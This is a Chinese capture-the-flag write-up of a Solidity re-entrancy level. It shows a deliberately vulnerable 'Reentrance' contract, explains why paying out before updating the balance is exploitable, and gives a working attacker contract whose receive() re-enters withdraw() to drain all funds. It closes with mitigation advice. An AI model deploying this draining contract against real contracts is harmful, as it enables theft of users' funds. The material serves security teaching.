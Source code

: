 # 10. Re-entrancy
### 原题
```
这一关的目标是偷走合约的所有资产.
```
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```
### 分析
这道题让我感觉偷感好重：）\
其实这个在开发中是必须要注意的重入漏洞，算是防范的基本要求了。但是早期的时候，有的合约开发确实有一些疏忽，造成重要损失的也有。\
我们主要看withdraw这个函数，首先是判断余额，然后使用call()转账，最后是更新余额。\
这个步骤就出现了漏洞，如果msg.sender是个攻击合约的话，这个攻击合约在收到转账后，会执行fallback或者receive函数，又可以继续发起调用withdraw()，\
因为“balances[msg.sender] -= _amount;”还没执行，所以余额始终还没变化，\
“balances[msg.sender] >= _amount”每次都通过校验。这样就可以再次调用，把余额全部偷完。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

interface IReentrance {
    function withdraw(uint256 _amount) external ;
    function donate(address _to) external  payable;
    function balanceOf(address _who) external view returns (uint256 balance);
}

contract ReentranceAttack {

    IReentrance reentrance;
    
    constructor(address _reentrance) public payable {
       reentrance = IReentrance(_reentrance);
    }

    function attack() public {
      (bool success,) = address(reentrance).call{value: 0.001 ether}(abi.encodeWithSelector(bytes4(keccak256("donate(address)")), address(this)));
      require(success, "attack failed");
      reentrance.withdraw(0.001 ether);
    }

    receive() payable external  {
      //如果是reentrance的余额大于0，我会重入攻击，把余额转走
      if (reentrance.balanceOf(address(this)) > 0) {
        reentrance.withdraw(reentrance.balanceOf(address(this)));
      } 
      
    }
}
```
### 总结
所以在现实开发中，一定要防范重入攻击。有以下解决方案：
1. 自己写防重入修饰器
2. 先改状态，再执行转账
3. 使用openzepplin的公共库
